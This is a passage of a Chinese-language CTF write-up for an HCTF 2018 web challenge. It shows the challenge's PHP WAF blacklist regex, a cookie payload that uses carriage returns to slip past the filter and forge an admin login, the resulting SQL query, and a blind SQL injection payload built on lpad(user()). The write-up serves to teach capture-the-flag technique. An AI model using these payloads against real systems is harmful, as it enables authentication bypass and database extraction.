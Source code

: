 ```php
<?php
function waf($string)
{
    $blacklist = '/union|ascii|mid|left|greatest|least|substr|sleep|or|benchmark|like|regexp|if|=|-|<|>|\#|\s/i';
    return preg_replace_callback($blacklist, function ($match) {
        return '@' . $match[0] . '@';
    }, $string);
}
```

过滤了蛮多的字符，最后找到一个可以登录的payload

```php
islogin=1; 
login_data={"admin_user":"admin'\rand\r'0","admin_pass":"3aa526bed244d14a09ddcc49ba36684866ec7661"}
```

此时的sql语句为

```SQL
SELECT * FROM fish_admin WHERE username='admin'\rand\r'0' limit 1
```

这样`$udata`的值就恒为`NULL`，从而cookie中的`admin_pass`就为定值，可以伪造admin登录

![](hctf2018-web-writeup\4.png)

进去之后搜了一波没找到什么有用的东西，最后还是把目光转回了SQL注入中，是否还能注入些更有用的数据呢？

## SQL注入

根据waf找了一个勉强可以注入的语句

```
{"admin_user":"admin'\rand\rlpad(user(),{},2)in('r00t')\rand'1","admin_pass":"3aa526bed244d14a09ddcc49ba36684866ec7661"}
```
